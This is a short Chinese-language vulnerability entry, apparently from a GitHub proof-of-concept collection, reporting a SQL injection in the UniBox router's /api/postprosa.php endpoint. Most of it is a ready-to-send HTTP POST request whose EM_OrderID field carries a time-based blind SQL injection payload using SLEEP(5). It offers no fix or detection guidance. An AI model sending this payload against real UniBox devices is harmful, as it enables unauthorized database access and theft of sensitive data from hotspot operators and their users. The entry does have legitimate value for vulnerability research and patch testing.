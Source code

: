 # unibox路由器postprosa接口存在SQL注入

# 漏洞描述
Description: UniBox 是一款一体化网络/热点控制器，可以部署为管理公共 WiFi 热点的热点网关，也可以部署为办公室和企业的网络控制器。unibox路由器postprosa存在SQL注入漏洞，攻击者可以根据该漏洞获取数据库权限，查看大量敏感信息。
  
## poc

```javascript
POST /api/postprosa.php HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close

EM_OrderID=1'+AND+(SELECT+3676+FROM+(SELECT(SLEEP(5)))sdgB)+AND+'rBTA'%3d'rBTA
```
